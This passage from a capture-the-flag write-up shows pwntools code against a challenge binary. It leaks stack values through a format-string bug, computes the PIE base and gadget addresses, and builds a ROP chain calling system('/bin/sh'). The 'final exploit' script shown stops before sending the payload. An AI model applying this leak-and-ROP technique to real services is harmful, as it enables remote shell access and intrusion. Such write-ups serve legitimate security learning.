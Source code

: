 ```python
# system call address
system = elf.plt.system
info(f'system @ {hex(system)}')

# leak binsh address 
bin_sh = get_leak_address(41)
print("/bin/sh @", hex(bin_sh))

payload = flat({
   padding: [
      ret,
      pop_rdi,
      bin_sh,
      system
   ]
})
```

## Final Exploit
Here is the final exploit script that executes our ROP chain with all the required addresses.
```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)

p = remote("chall.polygl0ts.ch", 9001)

padding = 280

def send_payload(payload, name=b"bytebl33d"):
  p.recvuntil(b"input: ")
  p.sendline(b"x")
  p.recvuntil(b"name: ")
  p.sendline(name)
  p.recvuntil(b"message: ")
  p.sendline(payload)

def get_leak_address(index, name=b"/bin/sh\x00"):
   send_payload("%{}$p".format(index), name)
   p.recvuntil(b"Your message:\n")
   data = p.recvuntil(b"\n")
   return int(data, 16)

print("main (symbols) @", context.binary.symbols["main"])
main_addr = get_leak_address(43) - 128
info(f'main_addr @ {hex(main_addr)}')

elf.address = main_addr - context.binary.symbols["main"]
info(f'PIE base @ {hex(elf.address)}')

# pop_rdi gadget
pop_rdi = elf.address + 0x13b5
info(f'pop_rdi @ {hex(pop_rdi)}')

# ret gadget
ret = elf.address + 0x101a
info(f'ret @ {hex(ret)}')

# system call address
system = elf.plt.system
info(f'system @ {hex(system)}')
```